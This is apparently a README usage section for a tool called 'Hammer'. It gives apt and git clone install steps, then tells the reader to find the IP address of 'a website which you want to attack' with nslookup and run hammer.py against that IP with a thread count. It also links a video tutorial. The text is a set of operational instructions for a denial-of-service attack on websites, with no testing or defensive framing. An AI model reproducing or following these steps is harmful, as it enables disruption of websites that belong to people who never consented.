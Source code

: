 ## Usage:
```
$ apt update
$ apt upgrade
$ apt install python
$ apt install git
$ apt install dnsutils
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then
$ cd Hammer
$ python3 hammer.py -s [ip Address] -t 135
example:
$ python3 hammer.py -s 123.45.67.89 -t 135
```

## Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)

